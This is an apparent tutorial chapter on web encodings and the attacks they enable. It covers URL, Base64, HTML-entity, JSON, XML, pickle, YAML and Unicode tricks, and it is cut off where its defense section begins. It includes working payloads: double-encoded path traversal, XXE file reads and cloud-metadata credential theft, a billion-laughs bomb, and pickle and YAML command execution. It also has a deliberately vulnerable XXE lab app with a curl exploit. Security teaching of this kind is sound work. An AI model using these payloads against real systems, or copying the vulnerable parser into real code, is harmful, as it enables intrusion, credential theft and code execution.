






**Level:** Intermediate · **Track:** Foundations · **Read time:** 175 min

This is Chapter 6 of the Web Fundamentals series — Notebook 6. The last three chapters dealt with
identity, origins, and APIs — the *structure* of web communication. This chapter drops to the
*substance*: the actual bytes. Every payload you'll ever send — an SQL injection string, an XSS
vector, a serialized object, a JWT — is **encoded** on the way to its target and **decoded** by
something on the other side. Attackers live in the gaps between encoders and decoders: a filter
that inspects one encoding while the application decodes another, a parser that expands an entity
the WAF never saw, a deserializer that instantiates a class the developer never intended.

Encoding literacy is not glamorous, but it is the difference between a payload that gets blocked
and one that sails through. The single most common reason a "correct" injection payload fails is
an encoding mistake — wrong charset, un-escaped special character, single-encoded where the target
needed double. And the single most common *bypass* of a WAF or input filter is an encoding trick:
the same character, spelled a way the filter didn't anticipate. So we build encoding from the
ground up — bits, bytes, character sets, Unicode — then each encoding scheme, then the
serialization formats, and finally CyberChef, the Swiss-army knife that ties it all together. At
every step we connect the scheme to the bugs it enables.

**One framing to hold throughout:** *encoding is not encryption.* Encoding is a reversible,
keyless transformation for *transport* (making bytes safe to carry in a given context). Anyone can
decode it. Confusing the two — treating Base64 as if it "hides" data — is itself a vulnerability
class (Chapter 3's `base64(user:id)` "session"). We'll hammer this line repeatedly; the next
notebook (Cryptography) is where real confidentiality begins.

---

## Part 1: Bits, Bytes, Character Sets — The Ground Floor

Everything is bits. A **bit** is a 0 or 1; eight bits make a **byte** (0–255, or `0x00`–`0xFF`).
A byte is just a number — what it *means* depends on the **character set** (charset) that maps
numbers to characters.

The oldest relevant mapping is **ASCII**: 7 bits, 128 values, covering English letters, digits,
punctuation, and control characters. `A` is 65 (`0x41`), `a` is 97 (`0x61`), space is 32 (`0x20`),
newline is 10 (`0x0A`). ASCII is the substrate under almost every text encoding.

```
Char:   H     e     l     l     o
ASCII:  72    101   108   108   111
Hex:    48    65    6C    6C    6F
Binary: 01001000 01100101 01101100 01101100 01101111
```

ASCII only covers 128 characters — no accents, no non-Latin scripts, no emoji. The world needed
more, so **Unicode** assigns a **code point** to every character in every script (over 149,000 of
them), written `U+XXXX` (e.g. `A` = U+0041, `é` = U+00E9, `世` = U+4E16, 😀 = U+1F600). Unicode is a
*character* set — a mapping from characters to numbers. It does **not** say how to store those
numbers as bytes; that's the job of an **encoding**.

The dominant Unicode encoding is **UTF-8**, a variable-length scheme: ASCII characters (U+0000–
U+007F) stay one byte (so UTF-8 is backward-compatible with ASCII), while higher code points use
2–4 bytes.

| Character | Code point | UTF-8 bytes |
|---|---|---|
| `A` | U+0041 | `41` |
| `é` | U+00E9 | `C3 A9` |
| `世` | U+4E16 | `E4 B8 96` |
| `😀` | U+1F600 | `F0 9F 98 80` |

**Security relevance already:** the fact that the *same character* can arrive as different byte
sequences (or that different byte sequences can *normalize* to the same character) is the seed of
a whole bug family — **Unicode normalization and overlong-encoding attacks** (Part 8). And the
charset a page declares (`Content-Type: text/html; charset=utf-8`) tells the browser how to turn
bytes back into characters; a mismatch between what the server thinks and what the browser thinks
is an XSS vector (charset-based filter bypass). Bytes are ambiguous until a charset resolves them,
and ambiguity is where attackers work.

---

## Part 2: Hexadecimal and Binary — Reading Raw Bytes

Humans can't read long binary strings, so we group bits. **Hexadecimal** (base 16) is the standard
because two hex digits map exactly to one byte (4 bits per hex digit). Hex digits are `0-9` then
`a-f` (10–15).

```
Binary : 0100 1000   ->  Hex: 48  ->  Decimal: 72  ->  ASCII: 'H'
Nibble1  Nibble2
```

You'll see hex constantly: `\x41` in payloads, `0x1F600` code points, hex-encoded hashes, colors
`#FF0000`, `%41` in URLs (percent-hex), memory addresses. Converting is a core reflex:

```bash
# Text -> hex and back (Linux/xxd)
echo -n "Hello" | xxd -p            # 48656c6c6f
echo -n "48656c6c6f" | xxd -r -p    # Hello

# In Python
"Hello".encode().hex()              # '48656c6c6f'
bytes.fromhex("48656c6c6f").decode() # 'Hello'
```

**Where hex encoding shows up as an attack tool:**

- **Filter bypass:** many parsers accept hex escapes. `\x3c\x73\x63\x72\x69\x70\x74` is `<script>`
  to a JS string parser but not to a naive `<script>` blocklist. SQL accepts `0x27` for a quote in
  some dialects; MySQL `0x53454C454354` = `SELECT`.
- **Encoding payloads for transport:** shellcode, binary exploit data, and hashes are exchanged as
  hex.
- **Reading protocol dumps:** Wireshark, hexdumps, and memory forensics are all hex.

**URL/percent encoding is hex in disguise:** `%41` = hex 41 = `A`. So mastering hex is a
prerequisite for the next part.

---

## Part 3: URL / Percent Encoding — The Most Bug-Dense Scheme

URLs may only contain a limited set of characters. Anything outside that set — spaces, `?`, `&`,
`/`, non-ASCII, control chars — must be **percent-encoded**: a `%` followed by the two-hex-digit
byte value. Space becomes `%20`, `?` becomes `%3F`, `&` becomes `%26`, `/` becomes `%2F`.

```
https://x.com/search?q=hello world&t=1
                          ^ space is illegal ->
https://x.com/search?q=hello%20world&t=1
```

There are two "flavors" that matter:

- **Reserved characters** (`: / ? # [ ] @ ! $ & ' ( ) * + , ; =`) have *structural* meaning in a
  URL. You encode them when you want them treated as *data*, not structure. Encoding `&` as `%26`
  inside a value stops it from being read as a parameter separator.
- **Unreserved characters** (`A-Z a-z 0-9 - _ . ~`) never need encoding.

```python
from urllib.parse import quote, unquote, quote_plus
quote("a b&c=d")        # 'a%20b%26c%3Dd'   (space -> %20)
quote_plus("a b&c=d")   # 'a+b%26c%3Dd'     (space -> +, for form bodies)
unquote("%3Cscript%3E") # '<script>'
```

Note the space quirk: in the **path/query** a space is `%20`; in
`application/x-www-form-urlencoded` **form bodies**, a space is `+` (and a literal `+` is `%2B`).
Mixing these up silently corrupts payloads.

**Why URL encoding is the most bug-dense scheme in web security:**

### Double (and multiple) encoding — the classic WAF bypass

If `%2F` decodes to `/`, then `%252F` decodes to `%2F` (because `%25` is `%`), which a *second*
decode turns into `/`. When a request passes through layers that each decode once — a WAF, then a
reverse proxy, then the app — a payload encoded *one extra time* can be invisible to the WAF
(which sees `%2F`, a harmless string) but active by the time the app decodes it again.

```
Attacker sends:   %252e%252e%252f      (double-encoded ../)
WAF decodes once: %2e%2e%2f            (still looks encoded/harmless -> allowed)
App decodes again: ../                 (path traversal fires)
```



### Encoding to smuggle special characters past filters

A filter blocking `'` (single quote) for SQLi may miss `%27`; one blocking `<` for XSS may miss
`%3C`, or the double-encoded `%253C`. Path filters blocking `../` miss `..%2f`, `%2e%2e/`,
`..%252f`, and mixed forms. The application, or a downstream component, decodes and the payload
lives.

### Encoding context confusion

The same string is decoded differently depending on *where* it lands (URL path vs query vs a
JavaScript context vs an HTML attribute). Getting the encoding right for the *final* context — and
wrong for the *filtering* layer — is the essence of many bypasses. We'll see this again with HTML
entities (Part 4).

**Bug-bounty / red-team angle:** whenever a filter blocks a payload, the first five things to try
are: URL-encode the trigger char, double-URL-encode it, mixed-case the encoding (`%2F` vs `%2f`),
use an alternate representation (`%2e` for `.`), and try the form-body `+` variant. Burp's
**Decoder** and Intruder's payload-processing (URL-encode, double-encode) automate this; CyberChef
(Part 9) makes it interactive.

---

## Part 4: Base64, Base64URL, and HTML Entities

### Base64 — bytes into safe text

**Base64** encodes arbitrary bytes into a 64-character alphabet (`A-Z a-z 0-9 + /`) that survives
text-only channels (email bodies, JSON strings, URLs, data URIs). It maps every **3 bytes (24
bits)** to **4 characters (6 bits each)**. When the input isn't a multiple of 3 bytes, `=` padding
fills the gap.

```
Input bytes:  M(77)      a(97)      n(110)
Binary:       01001101   01100001   01101110
Regroup 6-bit:010011 010110 000101 101110
Base64 index: 19     22     5      46
Base64 char:  T      W      F      u        -> "TWFu"
```

```bash
echo -n "Man" | base64                 # TWFu
echo -n "TWFu" | base64 -d             # Man
echo -n "Hello" | base64               # SGVsbG8=   (note = padding)
```

Recognizing Base64 by eye: mixed upper/lowercase + digits, often ending in `=` or `==`, length a
multiple of 4. **The `eyJ` prefix specifically signals a JWT** (`{"` Base64-encodes to `eyJ`).

**Base64URL** is a URL-safe variant: `+` → `-`, `/` → `_`, and padding `=` often dropped (because
`+`, `/`, and `=` are all reserved/awkward in URLs). JWTs use Base64URL. Decoding it by hand means
translating back first:

```bash
# Base64URL -> standard, then decode
echo 'eyJhbGciOiJIUzI1NiJ9' | tr '_-' '/+' | base64 -d 2>/dev/null   # {"alg":"HS256"}
```

**Security relevance:** Base64 is *encoding, not encryption* — it hides nothing. Data "protected"
by Base64 is plaintext to anyone. It shows up wrapping JWT parts, cookies, `data:` URIs (a common
XSS/exfil vector: `data:text/html;base64,PHNjcmlwdD4...`), serialized objects, and exfiltrated
data (attackers Base64 stolen data to slip it through text channels and DLP that only greps for
keywords). Filter-bypass angle: a blocklisted keyword Base64-encoded then decoded by the app
(`atob()` in JS, `base64_decode()` in PHP) evades the blocklist.

### HTML entities — encoding for the HTML context

HTML has its own reserved characters (`< > & " '`). To display them literally (not as markup),
you encode them as **entities**: named (`&lt; &gt; &amp; &quot;`), decimal (`&#60;`), or
hexadecimal (`&#x3c;`). This is the core **output-encoding** defense against XSS — user data
rendered as `&lt;script&gt;` displays as text instead of executing.

| Char | Named | Decimal | Hex |
|---|---|---|---|
| `<` | `&lt;` | `&#60;` | `&#x3c;` |
| `>` | `&gt;` | `&#62;` | `&#x3e;` |
| `&` | `&amp;` | `&#38;` | `&#x26;` |
| `"` | `&quot;` | `&#34;` | `&#x22;` |
| `'` | `&#39;` | `&#39;` | `&#x27;` |

**The double-edged part:** HTML entity encoding is both a *defense* (output-encode to stop XSS)
and an *attack* (the browser decodes entities, so a filter that blocks `javascript:` may miss
`&#x6a;avascript:` or `&#106;avascript:`, which the browser normalizes back before executing).
The lesson repeats: **encode for the final context; filter with awareness of every decoding step
between you and it.**

---

## Part 5: JSON — The Lingua Franca and Its Sharp Edges

**JSON** (JavaScript Object Notation) is the dominant data-serialization format for web APIs
(Chapter 5). It represents structured data with objects `{}`, arrays `[]`, strings, numbers,
booleans, and `null`.

```json
{
  "user": "alice",
  "roles": ["user", "editor"],
  "active": true,
  "age": 30,
  "meta": null
}
```

JSON is deliberately simple, but that simplicity hides sharp edges that cause real bugs:

- **Duplicate keys.** `{"role":"user","role":"admin"}` is technically ambiguous. Different parsers
  pick differently — some take the *first*, some the *last*. If a validation layer reads the first
  and the business logic reads the last (or two microservices in different languages disagree), you
  get an authorization bypass. This is **JSON interoperability / parser confusion**, a documented
  attack class.
- **Type juggling / coercion.** Is `"1"` equal to `1`? A loosely-typed backend (PHP, JS) may treat
  `{"admin": "0"}`, `{"admin": 0}`, `{"admin": false}`, and `{"admin": []}` inconsistently. Sending
  an unexpected type (`{"id": ["1","2"]}` where a string was expected) can bypass checks or crash
  logic.
- **Number precision.** JSON numbers are often parsed as IEEE-754 doubles; IDs above 2^53 lose
  precision, and `1e10` may be accepted where an integer was expected. Big-integer IDs can collide.
- **Unicode escapes.** `"<script>"` is `<script>` — JSON string escapes let a payload hide
  from a filter scanning the raw bytes for `<script>`, then materialize when parsed.
- **Content-type confusion.** An endpoint that parses a body as JSON *and* as form-encoded (or
  sniffs) can be tricked with a crafted `Content-Type` — sometimes bypassing CSRF protections that
  only trigger for one type (Chapter 3/5).



**JSONP** (Chapter 4) is JSON wrapped in a function call for cross-origin data fetching — a legacy
liability. And **`JSON.parse` vs eval**: never build objects by `eval()`-ing JSON-ish input; that's
direct code execution. Modern JSON parsers are safe from *code* execution, but the *logic* bugs
above are alive and well.

**Bug-bounty angle:** when testing an API, always try duplicate keys, unexpected types, extra
fields (mass assignment — Chapter 5), Unicode-escaped payloads, and oversized numbers. Send the
same request with `Content-Type: application/json` and `application/x-www-form-urlencoded` to
probe parser/CSRF differences.

**Binary serialization cousins.** Not all structured data is text. **Protocol Buffers** (protobuf,
Chapter 5's gRPC), **MessagePack**, **CBOR**, and **BSON** are compact *binary* serializations of
the same object model as JSON. They're not human-readable, so you decode them with the schema
(`.proto`) or a generic decoder (CyberChef has "From MessagePack"/protobuf ops). Their security
posture is closer to JSON than to pickle — they're *data* formats, not code-execution formats — but
the same *logic* pitfalls apply: type confusion, field-number reuse in protobuf, and trusting
lengths in the wire format. The rule holds: a compact binary blob in a request is still just
serialized data; decode it, understand the schema, and test the same authz/type issues you'd test
on JSON.

---

## Part 6: XML and the XXE Catastrophe

**XML** (eXtensible Markup Language) is an older, heavier serialization format still pervasive in
SOAP APIs, SAML (SSO), RSS, office documents (`.docx`/`.xlsx` are zipped XML), and legacy
enterprise systems. It represents data with nested tags:

```xml
<order>
  <user>alice</user>
  <items>
    <item qty="2">widget</item>
  </items>
</order>
```

XML's power — and its danger — comes from the **Document Type Definition (DTD)** and **entities**.
An entity is a reusable placeholder; the parser *expands* it. Internal entities are benign
(`&company;` → "Acme"), but XML also supports **external entities** that pull content from a URI —
a file, a URL — at parse time. That feature is **XXE (XML External Entity)** injection, one of the
most impactful web vulns.

### The classic file-read XXE

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">   <!-- external entity -> local file -->
]>
<order><user>&xxe;</user></order>
```

If the server's XML parser resolves external entities (many did by default), `&xxe;` expands to the
contents of `/etc/passwd`, which then appears in the response (or an error) — arbitrary local file
disclosure. Point the entity at an internal URL instead and you have **SSRF**:

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
```

...pulling cloud metadata credentials. XXE also enables **blind exfiltration** (out-of-band, via a
parameter entity that makes the parser call back to your server with the file contents) and
**denial of service** via the **billion laughs** entity-expansion bomb:

```xml
<!DOCTYPE lolz [
  <!ENTITY a "lollollollollollollol">
  <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
  <!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">   <!-- exponential expansion -> memory exhaustion -->
]>
<lolz>&c;</lolz>
```



### The fix

**Disable DTD processing / external entities** in the XML parser — the single control that kills
XXE and the entity bombs. Every language's XML library has the switch:

```python
# Python defusedxml (safe by design) or disable entity resolution
from lxml import etree
parser = etree.XMLParser(resolve_entities=False, no_network=True, dtd_validation=False)
```

```java
// Java
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

**Prefer JSON over XML** where you can, and if you must accept XML, use a hardened/`defused` parser
with DTDs off. **Bug-bounty angle:** anywhere the app accepts XML — SOAP endpoints, file uploads
(SVG, DOCX), SAML responses, RSS import — test for XXE with an out-of-band entity pointing at a
Burp Collaborator/interactsh URL; a DNS/HTTP callback confirms it even when the response shows
nothing (blind XXE).

---

## Part 7: Insecure Deserialization — Turning Data Into Code

Serialization turns an in-memory object into bytes (to store or transmit); **deserialization**
rebuilds the object. When an application deserializes **attacker-controlled** data using an
*unsafe* deserializer, the attacker can influence which objects get created and which methods run
during reconstruction — often reaching **remote code execution**.

This is worst in languages/formats whose native serialization can encode *arbitrary object graphs
and callbacks*:

- **Python `pickle`** — deserializing a pickle can run arbitrary code via `__reduce__`. Never
  `pickle.loads()` untrusted data.
- **Java serialization** — crafted object streams trigger "gadget chains" (ysoserial) through
  library classes on the classpath → RCE. The root of many enterprise CVEs.
- **PHP `unserialize()`** — magic methods (`__wakeup`, `__destruct`) fire on deserialization; POP
  chains lead to RCE/file ops.
- **Ruby Marshal, .NET BinaryFormatter** — same family.

```python
# WHY pickle is dangerous — a payload that runs a command on deserialization
import pickle, os
class Evil:
    def __reduce__(self):
        return (os.system, ("id",))          # runs `id` when unpickled
payload = pickle.dumps(Evil())               # attacker crafts this
# victim server:  pickle.loads(payload)      # -> executes `id`  (RCE)
```

Attackers deliver these payloads **encoded** (Base64, hex) inside cookies, hidden fields, API
bodies, or caches — which is exactly why this chapter sits where it does: you must decode the blob
to recognize a serialized object (`gASV` is a common Base64-pickle prefix; `rO0` is Base64 Java
serialization; `O:` starts PHP serialized objects). Recognizing the format in a decoded blob is
the finding.



**Defenses:** never deserialize untrusted data with a native/unsafe deserializer; prefer **data-only
formats** (JSON) with explicit schema validation; if you must use native serialization, add
integrity (a signed HMAC over the blob so tampering is detected — Chapter 3's lesson) and
allowlist permitted classes. **Recognizing the encoded prefixes** (`rO0`, `gASV`, `O:`, `AAEAAAD`
for .NET) in a decoded token is the bug-bounty tell.

### YAML — the friendly config format with a deserialization trapdoor

**YAML** (YAML Ain't Markup Language) is a human-friendly serialization format ubiquitous in
config files (CI pipelines, Kubernetes manifests, app settings). It looks harmless — indentation,
`key: value`, lists with `-`:

```yaml
user: alice
roles:
  - user
  - editor
active: true
```

But YAML is *more* than data: the spec supports **language-specific tags** that instantiate
objects, and several parsers honor them by default. Python's classic footgun is
`yaml.load(data)` **without** a safe loader — a crafted tag executes code exactly like pickle:

```yaml
# A payload that runs a command when parsed by an unsafe YAML loader
!!python/object/apply:os.system ["id"]
```

```python
import yaml
yaml.load(payload)              # UNSAFE (legacy default) -> runs `id`   (RCE)
yaml.safe_load(payload)         # SAFE  -> raises on the tag; data-only
```

Ruby's `YAML.load`/`Psych` had the same class of issue, and it has produced real RCE CVEs in
widely-used gems and apps. **Defense:** always use the *safe* loader (`yaml.safe_load`,
`YAML.safe_load`), which parses data only and refuses object tags. The lesson is identical to
pickle: a format you think of as "just config" is a code-execution sink when it deserializes
untrusted input with the wrong function.

---

## Part 8: Unicode, Normalization, and Overlong Encodings

Unicode's flexibility — multiple ways to represent "the same" character — is an attack surface all
its own.

**Normalization (NFC/NFD/NFKC/NFKD).** The character `é` can be a single code point (U+00E9) or a
base `e` + combining accent (U+0065 U+0301). **Normalization** converts between these canonical
forms. The dangerous one is **NFKC/NFKD** (compatibility normalization), which folds *visually or
semantically similar* characters together: the fullwidth `＜` (U+FF1C) normalizes to plain `<`
(U+003C); the "ff" ligature becomes "ff"; the Kelvin sign `K` (U+212A) becomes `K`.

The attack: submit a payload using a character the filter *doesn't* blocklist, which the
application *later normalizes* into the dangerous character.

```
Filter blocks '<' (U+003C).
Attacker sends '＜' (U+FF1C, fullwidth less-than) -> passes the filter.
App normalizes (NFKC) -> '<' -> XSS fires.
```

The same idea defeats username uniqueness (`Admin` vs a homoglyph `Аdmin` with a Cyrillic `А`),
enables **account takeover via normalization collisions** (two "different" emails normalize to the
same address at the mail provider), and bypasses path/host checks.

**Overlong UTF-8 encodings.** UTF-8 has a rule: each character has exactly *one* valid byte
sequence. But some historical/broken decoders accept **overlong** forms — encoding an ASCII char
in 2+ bytes (`/` as `C0 AF` instead of `2F`). A filter scanning for the byte `2F` (`/`) misses
`C0 AF`, but a lax decoder turns it back into `/` → path traversal. This was the mechanism behind
classic IIS Unicode directory-traversal worms (`%c0%af` for `/`).

**Punycode and IDN homographs.** Internationalized domain names encode Unicode into ASCII via
**Punycode** (`xn--...`). A domain that *looks* like `apple.com` but uses a Cyrillic `а` is a
different domain (`xn--pple-43d.com`) — the **IDN homograph** phishing attack. Browsers now show
Punycode for mixed-script domains as a defense.

| Attack | Mechanism | Defense |
|---|---|---|
| NFKC bypass | fullwidth/ligature normalizes to dangerous char | normalize *before* validating, then validate |
| Overlong UTF-8 | `%c0%af` → `/` in lax decoder | reject overlong/invalid UTF-8; canonicalize once |
| Homograph/IDN | Cyrillic look-alikes | Punycode display, skeleton/confusable checks |
| Case/width folding | `Admin`≈`admin`≈`Аdmin` | canonicalize identity before uniqueness checks |

**The universal rule:** **canonicalize (decode + normalize) exactly once, up front, then validate
the canonical form.** Validating raw input and *then* decoding/normalizing is the bug; every
scheme in this chapter obeys the same principle.

---

## Part 9: CyberChef — The Swiss-Army Knife

**CyberChef** is a free, browser-based tool (an open-source web app, runnable offline) that chains
encoding, decoding, encryption, and analysis operations into **recipes**. It is the single most
useful tool for the byte-wrangling this chapter is about, used constantly in CTFs, bug bounty, and
DFIR.

**The model:** you have an *input*, you drag *operations* into a *recipe* (an ordered pipeline),
and CyberChef shows the *output* live. Operations include From/To Base64, URL Decode, From Hex,
XOR, "Magic" (auto-detect encoding), Unzip, JWT Decode, hashing, and hundreds more.

**Worked recipe 1 — peel a multi-layer blob.** You capture a suspicious parameter
`token=JTI1MzNjc2NyaXB0JTI1M2U%3D`. Build the recipe:

```
Input:  JTI1MzNjc2NyaXB0JTI1M2U%3D
Recipe: [URL Decode] -> [From Base64] -> [URL Decode]
Output: <script>              (a double-URL-encoded, then Base64-wrapped XSS payload)
```

Each step peels one layer; the "Magic" operation can often auto-detect the chain for you and even
flag "this looks like Base64 then URL-encoding."

**Worked recipe 2 — decode a JWT.** Paste a JWT, add the **JWT Decode** operation (or `From
Base64` on each dot-segment) and read the header/payload instantly (Chapter 3).

**Worked recipe 3 — craft a WAF-bypass payload.** Start with `../../etc/passwd`, add `URL Encode`
(→ `..%2F..%2Fetc%2Fpasswd`), then `URL Encode` again (→ double-encoded `..%252F..%252Fetc...`) to
produce the exact bytes for the Part 3 bypass — all visually, no manual hex.



**Why it matters for a security engineer:** CyberChef turns "I think this is triple-encoded" from a
30-minute manual grind into a 30-second drag-and-drop, and its "Magic" + "Entropy" + "Detect File
Type" operations are first-line triage for any unknown blob in an incident. Learn it once; use it
forever. (The `curl`/`python`/`xxd` one-liners throughout this chapter are the scriptable
equivalents for automation.)

---

## Part 10: Hands-On Lab — Decode, Craft, and Exploit

A single flowing lab exercising the whole chapter: recognize encodings, peel layers, craft a
filter bypass, and confirm an XXE — all locally and safely.

### 10.1 Recognize and peel encodings (the triage drill)

```bash
# You captured this cookie value. What is it?
BLOB='eyJ1c2VyIjoiYWxpY2UiLCJyb2xlIjoidXNlciJ9'
echo "$BLOB" | base64 -d 2>/dev/null; echo
# -> {"user":"alice","role":"user"}   (Base64-wrapped JSON "session" — no signature!)
```

That's a Chapter-3-style unsigned identity blob. Tamper it:

```bash
echo -n '{"user":"alice","role":"admin"}' | base64
# -> eyJ1c2VyIjoiYWxpY2UiLCJyb2xlIjoiYWRtaW4ifQ==   (swap the cookie -> privilege escalation)
```

Multi-layer triage with Python (the scriptable "Magic"):

```python
import base64, urllib.parse
s = "JTI1MzNjc2NyaXB0JTI1M2U%3D"
s = urllib.parse.unquote(s)          # URL decode  -> 'JTI1MzNjc2NyaXB0JTI1M2U='
s = base64.b64decode(s).decode()     # Base64      -> '%253cscript%253e'
s = urllib.parse.unquote(s)          # URL decode  -> '%3cscript%3e'
s = urllib.parse.unquote(s)          # URL decode  -> '<script>'
print(s)                             # <script>
```

### 10.2 Craft a double-encoding WAF bypass

```bash
# Target blocks '../' and '%2e%2e%2f'. Build the double-encoded form:
python3 - <<'PY'
from urllib.parse import quote
p = "../../etc/passwd"
once  = quote(p, safe="")            # ..%2F..%2Fetc%2Fpasswd
twice = quote(once, safe="")         # ..%252F..%252Fetc%252Fpasswd
print("single:", once)
print("double:", twice)
PY
# Send `double` to a target that decodes twice (WAF -> proxy -> app) to bypass the '../' filter.
```

### 10.3 Stand up and exploit an XXE

```python
# xxeapp.py — DELIBERATELY vulnerable XML parser (do NOT ship this)
from flask import Flask, request
import lxml.etree as ET
app = Flask(__name__)

@app.route("/upload", methods=["POST"])
def upload():
    # VULNERABLE: resolve_entities=True (default), no_network not set
    parser = ET.XMLParser(resolve_entities=True)
    doc = ET.fromstring(request.data, parser=parser)
    return "parsed user: " + (doc.findtext("user") or "?")

app.run(port=5004)
```

```bash
pip install flask lxml
python3 xxeapp.py &

# Read a local file via external entity:
curl -s -X POST localhost:5004/upload -H "Content-Type: application/xml" --data-binary '
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<order><user>&xxe;</user></order>'
```

Realistic output — the file contents leak into the response:

```
parsed user: 3f9c1a2b4d5e
```

**Fix and watch it die:** set `ET.XMLParser(resolve_entities=False, no_network=True)` (or use
`defusedxml`). Re-send the payload and `&xxe;` no longer expands — the entity is inert, and the
file read fails. One parser flag closes an RCE-adjacent, credential-stealing hole.

### 10.4 See a Unicode normalization bypass with your own eyes

```python
import unicodedata
blocked = "<"                                  # the char a filter blocklists
payload = "＜"                             # ＜ fullwidth less-than (U+FF1C)
print("filter sees:", repr(payload), "== '<'?", payload == blocked)   # False -> passes filter
normalized = unicodedata.normalize("NFKC", payload)
print("app normalizes to:", repr(normalized), "== '<'?", normalized == blocked)  # True -> XSS fires
```

Output:

```
filter sees: '＜' == '<'? False
app normalizes to: '<' == '<'? True
```

The single character slipped past a `'<'` blocklist and then *became* `<` after NFKC
normalization — the exact mechanism behind normalization-based filter bypass. The fix is the
chapter's golden rule made concrete: **normalize first (`unicodedata.normalize("NFKC", x)`), then
run the blocklist against the normalized form.** Swap the order in the snippet and the bypass dies.

You've now recognized and peeled layered encodings, forged an unsigned "session," crafted a
double-encoded traversal bypass, read a server file through XXE, and watched a Unicode
normalization bypass fire — the full encoding-to-exploit pipeline this chapter teaches.

---

## Part 11: Detection & Defense Angle — Canonicalize Once, Validate Always

Consolidated defense across every scheme in this chapter.

**The one principle:** **decode and normalize input to a single canonical form *once*, up front,
then validate the canonical form — and re-encode correctly for each output context.** Nearly every
bug here is "validated the raw bytes, then something decoded them into the dangerous form," or
"encoded for the wrong context."

**Input side:**

